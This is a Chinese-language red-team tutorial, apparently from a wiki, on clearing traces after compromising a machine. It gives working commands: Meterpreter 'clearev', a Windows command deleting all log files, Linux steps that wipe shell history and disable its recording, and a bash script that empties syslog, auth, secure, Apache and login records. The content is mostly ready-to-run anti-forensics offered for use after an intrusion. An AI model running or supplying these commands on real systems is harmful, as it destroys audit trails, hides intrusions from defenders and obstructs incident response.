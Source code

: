 仅系统日志清理，如果目标服务存在日志服务器的话，所有日志还会被保留。这里仅清理系统相关日志，如果访问了某些服务，比如说通过 apache 服务获得一个 shell，你还需要清理 apache 服务的访问日志。

## 1 Windows

> Windows 下运行 eventvwr 查看日志

msf 清理

```
meterpreter > clearev
```

cmd 清理

```
meterpreter > shell
C:\Windows\system32>del %WINDIR%\*.log /a/s/q/f
```

## 2 Linux

>Linux 可能根据发行版本不同，日志文件名称也有所不同。所以具体清除需要大家先看一下目标操作系统

清理历史命令（仅能清理当下进程）

```
[root@CentOS-76 ~]# history -c
```

使系统不再保存历史命令

```
[root@CentOS-76 ~]# vim /etc/profile
```

> 将 `HISTSIZE=1000` 改为 `HISTSIZE=0`，

```
HISTSIZE=1000
```

```
HISTSIZE=0
```

删除访问日志

1. 访问失败的日志

```
[root@CentOS-76 ~]# echo > /var/log/btmp
```

2. 访问成功的日志

```
[root@CentOS-76 ~]# echo > /var/log/wtmp
```

> 删除后执行 `last` 命令就会发现没有记录

执行脚本

```
[root@CentOS-76 ~]# source clear_logs_linux.sh
```

```sh
#!/bin/bash
#Linux 日志&命令清理
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
history -c
```

> source 在当前进程下执行
>
> 执行时注意文件是否有执行权限。而且只有 root 才可以删除日志。

---

References

- [日志清理](https://wiki.iredteam.cn/the-report-stage/log-cleaning)